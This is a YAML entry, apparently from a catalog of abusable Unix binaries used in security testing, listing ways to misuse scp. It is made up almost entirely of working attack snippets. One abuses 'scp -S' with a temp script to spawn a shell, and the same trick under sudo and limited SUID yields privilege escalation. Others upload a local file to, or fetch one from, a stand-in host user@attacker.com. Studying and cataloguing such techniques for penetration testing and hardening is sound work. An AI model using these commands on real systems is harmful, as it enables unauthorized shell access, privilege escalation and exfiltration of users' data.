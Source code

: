 ```yaml
---
name: scp
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        scp -S $TF x y:
  file-upload:
    - description: Send local file to a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_save
        LPATH=file_to_send
        scp $LFILE $RPATH
  file-download:
    - description: Fetch a remote file from a SSH server.
      code: |
        RPATH=user@attacker.com:~/file_to_get
        LFILE=file_to_save
        scp $RPATH $LFILE
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        sudo scp -S $TF x y:
  limited-suid:
    - code: |
        TF=$(mktemp)
        echo 'sh 0<&2 1>&2' > $TF
        chmod +x "$TF"
        ./scp -S $TF a b:
---
```

